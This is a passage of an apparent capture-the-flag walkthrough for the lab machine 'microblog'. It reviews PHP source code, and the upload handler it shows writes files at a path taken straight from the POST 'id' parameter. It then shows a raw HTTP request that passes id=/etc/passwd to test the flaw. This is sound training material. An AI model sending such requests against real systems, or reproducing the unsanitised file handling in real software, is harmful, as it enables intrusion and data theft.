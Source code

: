 ```php
function isPro() {
    if(isset($_SESSION['username'])) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $pro = $redis->HGET($_SESSION['username'], "pro");
        return strval($pro);
    }
    return "false";
}
```

The Pro user is the target here, as it looks like command injection is possible. The last chunk of code has to do with the upload functions. Most of the functions are somewhat identical to each other, taking 2 POST parameters, with one being called `id`.&#x20;

```php
if (isset($_POST['header']) && isset($_POST['id'])) {
    chdir(getcwd() . "/../content");
    $html = "<div class = \"blog-h1 blue-fill\"><b>{$_POST['header']}</b></div>";
    $post_file = fopen("{$_POST['id']}", "w");
    fwrite($post_file, $html);
    fclose($post_file);
    $order_file = fopen("order.txt", "a");
    fwrite($order_file, $_POST['id'] . "\n");  
    fclose($order_file);
    header("Location: /edit?message=Section added!&status=success");
}
```

In this case, it seems that the `id` parameter is directly passed into `fopen`, meaning this could be vulnerable to LFI. Earlier, we created a new blog which created a new subdomain, so let's test our vulnerability there and confirm that it works.

<figure><img src="../../.gitbook/assets/image (693) (1).png" alt=""><figcaption></figcaption></figure>

```http
POST /edit/index.php HTTP/1.1
Host: test.microblog.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://test.microblog.htb
Connection: close
Referer: http://test.microblog.htb/edit/
Cookie: username=1cl26pbf4ftqkk0s7i5ntv84iv
Upgrade-Insecure-Requests: 1



id=/etc/passwd&header=test
```